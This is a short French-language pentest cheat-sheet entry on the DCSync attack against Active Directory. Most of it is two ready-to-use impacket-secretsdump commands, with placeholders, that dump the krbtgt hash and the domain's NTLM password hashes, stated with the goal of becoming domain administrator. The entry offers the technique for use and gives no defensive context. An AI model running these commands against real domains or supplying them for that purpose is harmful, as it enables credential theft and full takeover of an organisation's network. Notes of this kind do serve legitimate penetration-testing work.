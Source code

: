 # DC SYNC

Récupérer la base `ntds.dit` de l'Active Directory :

```
impacket-secretsdump '<DOMAIN.LOCAL>/<USERNAME>:<PASSWORD>@<IP-DC>' -just-dc-user krbtgt
impacket-secretsdump '<DOMAIN.LOCAL>/<USER>:<PASSWORD>@<IP>' -just-dc-ntlm -dc-ip <IP> > ntds.dit
```

**Objectif :** Devenir administrateur du domaine.

**Note :** _Pour réaliser cette attaque, il faut un compte avec les droits DCSync._
